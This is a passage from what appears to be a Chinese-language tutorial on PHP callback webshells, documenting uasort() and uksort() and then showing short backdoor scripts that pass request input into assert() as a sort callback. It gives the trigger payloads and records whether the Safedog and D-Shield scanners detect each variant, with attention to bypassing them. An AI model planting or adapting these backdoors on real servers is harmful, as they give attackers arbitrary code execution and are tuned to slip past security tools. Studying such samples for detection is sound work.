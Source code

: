 

#### uasort()

```php
uasort(array,myfunction);
```

uasort() 函数使用用户自定义的比较函数对数组排序，并保持索引关联（不为元素分配新的键）。如果成功则返回 TRUE，否则返回 FALSE。该函数主要用于对那些单元顺序很重要的结合数组进行排序。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定要进行排序的数组。                                 |
| *myfunction* | 可选。定义可调用比较函数的字符串。如果第一个参数小于等于或大于第二个参数，那么比较函数必须返回一个小于等于或大于 0 的整数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array('test', $_REQUEST['x']);
    uasort($arr, base64_decode($e));
?>
```

POST 提交的数据如下：`e=YXNzZXJ0&x=phpinfo();` 这个后门在 PHP 5.3之后可以正常运行，5.3 会提示 assert 只能有1个参数，这是因为 assert 多参数是后面才开始新增的内容，PHP 5.4.8 及更高版本的用户也可以提供第四个可选参数，如果设置了，用于将 `description` 指定到 **assert()**。

| 安全狗                   | D盾                |
| :----------------------- | :----------------- |
| 1 个安全风险 PHP回调木马 | 级别 4 uasort 参数 |

####  uksort()


```php
uksort(array,myfunction);
```

uksort() 函数通过用户自定义的比较函数对数组按键名进行排序。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定要进行排序的数组。                                 |
| *myfunction* | 可选。定义可调用比较函数的字符串。如果第一个参数小于等于或大于第二个参数，那么比较函数必须返回一个小于等于或大于 0 的整数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array('test' => 1, $_REQUEST['x'] => 2);
    uksort($arr, $e);
?>
```

POST 的内容如下：`e=assert&x=phpinfo();` 该方法也不能 Bypass 安全狗了：

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |
